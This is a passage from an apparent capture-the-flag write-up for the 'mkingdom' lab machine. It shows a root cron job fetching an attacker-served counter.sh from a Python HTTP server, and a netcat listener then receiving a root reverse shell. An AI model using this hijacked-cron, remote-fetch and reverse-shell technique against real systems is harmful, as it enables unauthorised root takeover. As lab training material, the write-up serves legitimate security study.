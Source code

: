 Now, when the `cronjob` runs the next time, we see it fetching the script from our server.

```console
$ python3 -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
10.10.69.96 - - [14/Jun/2024 22:16:58] "GET /app/castle/application/counter.sh HTTP/1.1" 200 -
```

And we get a shell as the `root` user on our listener and can read the root flag.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.69.96] 40518
bash: cannot set terminal process group (27782): Inappropriate ioctl for device
bash: no job control in this shell
root@mkingdom:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@mkingdom:~# wc -c root.txt
wc -c root.txt
38 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>